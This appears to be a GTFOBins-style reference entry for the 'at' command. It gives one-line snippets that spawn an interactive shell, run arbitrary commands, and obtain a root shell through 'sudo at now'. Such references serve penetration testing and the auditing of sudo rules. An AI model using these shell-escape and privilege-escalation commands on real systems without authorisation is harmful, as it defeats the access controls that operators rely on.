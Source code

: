 ```yaml
---
functions:
  shell:
    - code: |
        echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | at now; tail -f /dev/null
  command:
    - description: The invocation will be blind, but it is possible to redirect the output to a file in a readable location.
      code: |
        COMMAND=id
        echo "$COMMAND" | at now
  sudo:
    - code: |
        echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | sudo at now; tail -f /dev/null
---
```

